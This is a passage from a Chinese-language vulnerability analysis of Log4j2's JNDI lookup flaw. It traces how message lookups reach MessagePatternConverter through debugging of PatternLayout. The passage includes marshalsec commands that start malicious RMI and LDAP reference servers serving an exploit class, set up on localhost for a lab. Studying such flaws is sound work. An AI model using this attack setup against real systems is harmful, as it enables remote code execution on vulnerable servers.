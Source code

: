 比如 `${date}`

![image-20250413161921428](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174424348.png)

## 漏洞分析

先打下，用marshalsec起个恶意的rmi服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer &#34;http://127.0.0.1:9999/#exp&#34; 9991
```

![image-20250413163110389](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174424362.png)

ldap 也是这样

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer &#34;http://127.0.0.1:9999/#exp&#34; 1099
```

![image-20250413163707776](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174424366.png)

打个断点调试，来到 `org.apache.logging.log4j.core.layout.PatternLayout` 下的 `toSerializable` 方法

这个类中有两个 `toSerializable` 方法，由于我们在 log4j2.xml 中是使用 `&lt;PatternLayout pattern=&#34;${pattern1}&#34;/&gt;` 这种静态的配置方式，所以最后会调用到第二个 `toSerializable` 方法中的 `this.formatters.length` 来获取 ，这个类的源码

```
        public StringBuilder toSerializable(final LogEvent event, final StringBuilder buffer) {
            int len = this.formatters.length;

            for(int i = 0; i &lt; len; &#43;&#43;i) {
                this.formatters[i].format(event, buffer);
            }

            if (this.replace != null) {
                String str = buffer.toString();
                str = this.replace.format(str);
                buffer.setLength(0);
                buffer.append(str);
            }

            return buffer;
        }
```

这个类就是将日志内容按 log4j2.xml 文件中规定好的格式那样输出，我们这里的格式为 `[%-5p] %d %c - %m%n` 所以第七次循环就会处理 `%m` 也就是我们的日志消息，会调用到 `org.apache.logging.log4j.core.pattern.MessagePatternConverter#format` 

![image-20250413172119526](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174424358.png)

这里的 `this.config` 就是我们实现log4j2的文件类型，这里是xml，`this.noLookups` 为 false 则代表启用 `${}` 变量替换，这里我们没有在xml中显式规定禁用，所以默认是启用的，而且我们这里本来就需要用到变量替换
